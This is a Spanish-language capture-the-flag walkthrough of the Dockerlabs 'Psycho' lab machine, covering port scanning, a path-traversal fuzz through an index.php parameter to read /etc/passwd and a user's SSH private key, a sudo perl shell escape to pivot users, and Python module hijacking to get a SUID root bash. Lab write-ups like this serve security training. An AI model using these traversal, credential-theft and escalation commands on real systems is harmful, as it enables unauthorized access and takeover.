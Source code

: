 ```yaml
---
layout: post
title: Psycho
subtitle: Plataforma Dockerlabs Dificultad Fácil
cover-img: /assets/img/Psycho.png
thumbnail-img: /assets/img/Psycho.png
share-img: /assets/img/Psycho.png
author: Elmili72
---
```



## 1. Escaneo general de puertos

El primer paso como siempre será realizar un escaneo general de los puertos en la máquina.

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
```

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## 2. Escaneo específico de puertos

Conociendo los puertos abiertos, ahora habría que realizar un escaneo específicos de esos puertos para conocer que servicios y en que versión corren esos puertos.

```bash
nmap -sCV -p22,80 172.17.0.2 -oN target
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
|_  256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 4You
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos que tenemos los puertos 22 y 80.
## 3. Reconocimiento de servicio web

A la hora de hacer reconocimiento web, a mi me gusta utilizar la herramienta *WHATWEB* para conocer las teconologías que corren en el puerto 80.

```bash
whatweb http://172.17.0.2                                                                                                                     
http://172.17.0.2 [200 OK] Apache[2.4.58], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Script, Title[4You]
```

Una vez hemos visto lo que usa entramos en la página para ver lo que hay. Vemos botones de login y demás que no tienen ningún tipo de función.

![image](https://github.com/user-attachments/assets/0019ef0b-30e5-4241-ac56-255c5a704a4b)

Si bajamos del todo en la página aparece muy pequeño un mensaje de error.

![image](https://github.com/user-attachments/assets/428ac325-3e53-47a3-9d62-7220659ca3bd)

Podemos intuir que al ser una extensión *PHP* está intentando realizar una llamada  aun archivo del sistema que no llegar a alcanzar. Por lo que realizamos un escaneo con *WFUZZ* para reconocer el parámetro al cual tiene que llamar para cargar ese error. Además, de añadir un destino que podría sernos interesante para que ese parámetro nos refleje información si fuera el caso.

## 4. Escaneo de servicio web

Una vez ya hemos visto el contenido de la página toca escanear el interior de esta, usando *GOBUSTER* no nos aparece nada que sea realmente útil. Así que atendiendo a lo anteriormente dicho procedemos a realizar Fuzzing para ver si hemos acertado con la teoría.

```bash
wfuzz -c --hc 404 --hw 169 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://172.17.0.2/index.php?FUZZ=../../../../../etc/passwd
```

Efectivamente, aparece un parámetro llamado *secret*, con el cual podemos hacer cositas.

![image](https://github.com/user-attachments/assets/705c39fa-de8b-4a45-8479-6d06dc66825c)

Lo primero será mirar que usuarios tenemos y por los que podemos intentar una intrusión.

![image](https://github.com/user-attachments/assets/bc8910fb-5972-4085-adeb-7b9b72f4eb7e)

![image](https://github.com/user-attachments/assets/6dcee189-6749-47e0-966e-df4cc49a0f16)

![image](https://github.com/user-attachments/assets/0767be01-a0de-4282-8e66-75e03895c9fd)

## 5. Intrusión

Realizamos un intento de fuerza bruta con **HYDRA** pero no nos saca nada, por lo que vamos a aprovechar el parámetro de la web para intentar lograr alguna **ID_RSA** de los usuarios.

![image](https://github.com/user-attachments/assets/4c3b1611-d6bd-4fbd-87c9-f10dcd7c4c9b)

**IMPORTANTE**
```bash
chmod 600 id_rsa
```

![image](https://github.com/user-attachments/assets/77718b41-2afc-47bb-b5c2-50d5d6ccb8e4)

Y estamos dentro del usuario *Vaxei*

## 6. Pivoting

El usuario actual lamentablemente no nos da la posibilidad de realizar una escalada de privilegios directa, por lo que tendremos que realizar pivoting para saltar al usuario Luisillo y comprobar si nos da ese permiso.

```bash
vaxei@8a3056fa86ef:~$ sudo -l
Matching Defaults entries for vaxei on 8a3056fa86ef:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User vaxei may run the following commands on 8a3056fa86ef:
    (luisillo) NOPASSWD: /usr/bin/perl
```

Vemos que el binario *perl* puede ser explotado para el pivoting por lo que tiramos de nuestro fiel amigo *GTFOBins* y nos convertimos en el usuario Luisillo.

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
script /dev/null -c bash
stty raw -echo; fg
Ctrl + Z
reset XTERM

luisillo@8a3056fa86ef:/home/vaxei$ whoami
luisillo
```

## 7. Escalada de privilegios

Ahora el paso más bonito de un CTF, convertirnos en *ROOT*.

```bash
luisillo@8a3056fa86ef:/home/vaxei$ sudo -l
Matching Defaults entries for luisillo on 8a3056fa86ef:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 8a3056fa86ef:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```

De primeras ya vemos un script llamado *paw.py* que ejecuta un script que hace una llamada a un módulo que parece que no existe, por lo que como buenas personas que somos vamos a entregarle ese proceso que tanto busca :).

![image](https://github.com/user-attachments/assets/9def538a-44df-45fb-9c1f-45dd934fbfe4)

Creamos un script que se llame igual que pide el script anterior, en este caso *subprocess.py*. Y escribirmos lo siguiente:

![image](https://github.com/user-attachments/assets/9ce67438-f6cc-4295-bf9f-e038c39beecc)

![image](https://github.com/user-attachments/assets/5ae23475-978b-4397-91ef-40e022038683)


Podemos ver en la imagen anterior que la bash no tiene permisos SUID, pero nosotros vamos a corregir eso con nuestro suprocess.py.

![image](https://github.com/user-attachments/assets/864eb1f0-9ffc-4716-af0a-fac0768eb5f4)

![image](https://github.com/user-attachments/assets/956a65d6-49df-451b-8044-2073b5b1a383)

Tras ejecutar el script vemos que le hemos dado ese privilegio a la bash para poder ejecutar una bash privilegiada desde el usuario Luisillo.

```bash
luisillo@8a3056fa86ef:/opt$ bash -p
bash-5.2# whoami
root
```

Espero que os haya gustado y que os haya sido de ayuda este writeup, nos vemos en el próximo!
